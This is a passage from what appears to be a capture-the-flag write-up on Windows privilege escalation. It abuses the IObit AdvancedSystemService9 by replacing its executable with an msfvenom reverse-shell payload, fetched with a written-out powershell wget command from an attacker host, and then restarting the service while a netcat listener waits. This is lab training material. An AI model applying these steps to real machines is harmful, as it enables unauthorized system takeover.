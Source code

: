 We will do the same as before, upload our Advanced.exe file and listen on a other netcat port.

Again, let's download the msfvenom payload.

![image](/assets/img/steel/msfvenom1.png)

Navigate to the IObit folder :

![image](/assets/img/steel/cdiobit.png)

Upload the Advanced.exe on your target machine with the help of your python server :
```bash 
powershell -c wget "http://10.11.15.91/Advanced.exe -outfile Advanced.exe
```

Set up an other netcat listener to the same port configured on your Advanced payload.

![image](/assets/img/steel/nc2.png)

Then finally stop and start again the AdvancedSystemService9 to execute the payload. 

![image](/assets/img/steel/scstart1.png)
